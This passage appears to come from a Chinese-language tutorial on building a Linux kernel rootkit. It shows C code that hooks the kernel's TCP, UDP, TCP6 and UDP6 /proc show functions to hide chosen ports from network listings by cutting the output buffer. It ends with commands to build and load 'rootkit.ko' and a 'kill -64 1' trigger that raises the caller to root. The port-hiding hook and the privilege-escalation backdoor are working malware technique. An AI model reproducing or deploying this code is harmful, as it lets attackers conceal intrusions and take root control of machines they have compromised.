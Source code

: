 hook函数首先判断网络类型，之后调用原show函数，如下

```c
    if (seq->op == tcp_operations){
        type = TCP_CONNECT;
        //调用原有的tcp show函数
        ret = tcp_seq_fun(seq,v);
    }
    else if (seq->op == udp_operations){
        type = UDP_CONNECT;
        ret = udp_seq_fun(seq,v);
    }
    else if (seq->op == tcp6_operations){
        type = TCP6_CONNECT;
        ret = tcp6_seq_fun(seq,v);
    }
    else if (seq->op == udp6_operations){
        type = UDP6_CONNECT;
        ret = udp6_seq_fun(seq,v);
    }
```

show函数会将需要展示的端口信息放在seq->buf中，而seq->count记录了buf的缓冲区长度，代码的逻辑为判断新增的缓冲区的字符串是否和想要的隐藏的端口信息相同，如下

```c
    // 对hidden_port_list_head遍历
    list_for_each_entry(node, &hidden_port_list_head, list){
        if (type == node->type){
            // seq->buf为缓冲区,snprintf先按照缓冲区格式声明一个port_str_buf
            snprintf(port_str_buf, PORT_STR_LEN, ":%04X", node->port);
            // 之后将缓冲区的新增字符串和port_str_buf进行对比判断是否要过滤端口
            if (strnstr(seq->buf + last_len, port_str_buf, this_len)){
                pr_info("Hiding port: %d", node->port);
                seq->count = last_len;
                break;
            }
        }
    }
```

## 功能测试

模块编译、安装、卸载：

```c
sudo make 

sudo insmod rootkit.ko
   
sudo rmmod rootkit
```

提权：

```
id

kill -64 1

id
```
